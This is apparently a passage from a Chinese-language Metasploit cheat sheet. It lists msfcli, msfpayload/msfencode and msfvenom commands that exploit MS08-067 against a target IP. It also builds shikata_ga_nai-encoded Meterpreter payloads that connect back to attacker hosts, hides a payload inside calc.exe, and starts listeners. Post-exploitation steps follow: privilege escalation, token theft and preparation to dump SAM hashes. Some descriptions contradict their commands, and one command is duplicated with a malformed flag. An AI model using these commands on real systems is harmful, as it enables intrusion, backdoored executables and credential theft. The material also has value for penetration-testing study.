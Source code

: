 五、MSFcli命令
msfcli | grep exploit

仅列出渗透攻击模块

msfcli | grep exploit/windows

仅列出与windows相关的渗透攻击模块

msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听

六、Metasploit高级忍术
msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode  -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5主机443端口上，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会在目标主机上弹出任何信息。这种配置非常有效，当你利用浏览器漏洞控制了远程主机，并不想让计算器程序打开呈现在目标用户面前。同样，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -x calc.exe -k- -o payload.exe -e x86/shikata_ga_nai -c -7 -t exe && msfcli multi/handler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E

创建一个raw格式的bind_tcp模式的Meterpreter攻击载荷，编码7次，输出payload.exe，同时开启多路监听方式

七、MSFvenom
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai LHOST=172.14.1.32 LPORT=443 > msf.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

创建和编码攻击载荷

八、Meterpreter后渗透攻击阶段命令
在windows主机上提权

meterpreter > use priv

meterpreter > getsystem

在一个给定的进程ID中窃取一个域管理员组令牌，添加一个域账户，并把域账户添加到域管理员组中

meterpreter > ps

meterpreter > steal_token 1784

meterpreter > shell

从SAM数据库中导出密码的哈希值

meterpreter > use priv

meterpreter > getsystem
